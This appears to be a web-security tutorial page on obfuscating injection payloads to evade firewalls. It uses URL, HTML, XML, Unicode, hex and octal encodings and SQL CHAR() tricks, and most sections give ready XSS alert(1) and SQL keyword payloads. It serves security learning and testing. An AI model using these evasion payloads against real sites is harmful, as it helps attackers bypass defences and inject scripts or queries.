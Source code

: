 # Obfuscating

## <mark style="color:yellow;">URL encoding</mark> <a href="#obfuscation-via-url-encoding" id="obfuscation-via-url-encoding"></a>

Sometimes, WAFs may fail to properly URL decode your input during checks.

\-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### <mark style="color:yellow;">Double URL encoding</mark> <a href="#obfuscation-via-double-url-encoding" id="obfuscation-via-double-url-encoding"></a>

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### <mark style="color:yellow;">HTML encoding</mark> <a href="#obfuscation-via-html-encoding" id="obfuscation-via-html-encoding"></a>

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## <mark style="color:yellow;">XML encoding</mark>

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## <mark style="color:yellow;">Unicode escaping</mark> <a href="#obfuscation-via-unicode-escaping" id="obfuscation-via-unicode-escaping"></a>

Prefix `\u`. Most programming languages, including JavaScript, decode Unicode escapes. To obfuscate client-side payloads, you can use Unicode in strings.&#x20;

For example, if input is passed to eval() as a string and blocked, try escaping a character like this: `eval("\u0061lert(1)")`.&#x20;

This encoding may go undetected until decoded by the browser.

{% hint style="info" %}
**Note**: Inside a string, you can escape characters, but outside a string, escaping some characters, like parentheses, will cause a syntax error.
{% endhint %}

ES6-style Unicode escapes allow optional leading zeros, so some WAFs might be fooled similarly to HTML encodings. For example:

```html
<a href="javascript:\u{00000000061}alert(1)">Click me</a>
```

## <mark style="color:yellow;">Hex escaping</mark> <a href="#obfuscation-via-hex-escaping" id="obfuscation-via-hex-escaping"></a>

Prefixed with `\x`. Like Unicode escapes, these will be decoded client-side if the input is evaluated as a string: `eval("\x61lert")`

{% hint style="info" %}
**Note**: sometimes, you can obfuscate SQL statements using the `0x` prefix. For example, `0x53454c454354` decodes to the `SELECT` keyword.
{% endhint %}

## <mark style="color:yellow;">Octal escaping</mark> <a href="#obfuscation-via-octal-escaping" id="obfuscation-via-octal-escaping"></a>

Prefixed with `\`.

`eval("\141lert(1)")`

## <mark style="color:yellow;">Multiple encodings</mark> <a href="#obfuscation-via-multiple-encodings" id="obfuscation-via-multiple-encodings"></a>

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

## <mark style="color:yellow;">SQL CHAR() function</mark> <a href="#obfuscation-via-the-sql-char-function" id="obfuscation-via-the-sql-char-function"></a>

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
